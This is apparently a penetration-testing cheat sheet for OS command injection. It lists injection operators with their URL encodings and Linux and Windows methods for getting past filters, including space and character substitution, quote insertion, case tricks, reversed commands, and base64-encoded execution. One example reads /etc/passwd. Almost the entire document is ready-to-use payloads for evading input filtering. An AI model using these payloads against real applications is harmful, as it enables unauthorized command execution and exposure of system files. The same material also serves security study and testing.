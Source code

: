 ### Injection Operators

# Semicolon
```
;  # %3b - Both systems
```

# New Line
```
\n  # %0a - Both systems
```

# Background
```
&  # %26 - Both systems (second output generally shown first)
```

# Pipe
```
|  # %7c - Both systems (only second output is shown)
```

# AND Operator
```
&&  # %26%26 - Both systems (only if first command succeeds)
```

# OR Operator
```
||  # %7c%7c - Executes second command if first fails
```

# Sub-Shell (Linux Only)
```
``  # %60%60 - Linux-only
$()  # %24%28%29 - Linux-only
```

### Linux - Filtered Character Bypass

# View Environment Variables
```
printenv  # Displays all environment variables
```

# Space Bypass
```
%09  # Use tabs instead of spaces
${IFS}  # Replaced with space or tab (Not usable in sub-shells)
{ls,-la}  # Commas replaced with spaces
```

# Other Character Bypass
```
${PATH:0:1}  # Replaced with /
${LS_COLORS:10:1}  # Replaced with ;
$(tr '!-}' '"-~'<<<[)  # Shift character by one ([ -> \)
```

# Blacklisted Command Bypass

## Character Insertion
```
' or "  # Total must be even
$@ or \  # Linux only
```

## Case Manipulation
```
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")  # Executes regardless of case
$(a="WhOaMi";printf %s "${a,,}")  # Another case manipulation method
```

## Reversed Commands
```
echo 'whoami' | rev  # Reverse a string
$(rev<<<'imaohw')  # Execute reversed command
```

## Encoded Commands
```
echo -n 'cat /etc/passwd | grep 33' | base64  # Encode with base64
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)  # Execute base64 encoded string
```

### Windows - Filtered Character Bypass

# View Environment Variables (PowerShell)
```
Get-ChildItem Env:  # View all environment variables
```

# Space Bypass
```
%09  # Use tabs instead of spaces
%PROGRAMFILES:~10,-5%  # Replaced with space (CMD)
$env:PROGRAMFILES[10]  # Replaced with space (PowerShell)
```

# Other Character Bypass
```
%HOMEPATH:~0,-17%  # Replaced with \ (CMD)
$env:HOMEPATH[0]  # Replaced with \ (PowerShell)
```

# Blacklisted Command Bypass

## Character Insertion
```
' or "  # Total must be even
^  # Windows only (CMD)
```

## Case Manipulation
```
WhoAmi  # Odd case characters to bypass filters
```

## Reversed Commands
```
"whoami"[-1..-20] -join ''  # Reverse a string in PowerShell
iex "$('imaohw'[-1..-20] -join '')"  # Execute reversed command in PowerShell
```

## Encoded Commands
```
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))  # Encode with base64
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"  # Execute base64 encoded string
```
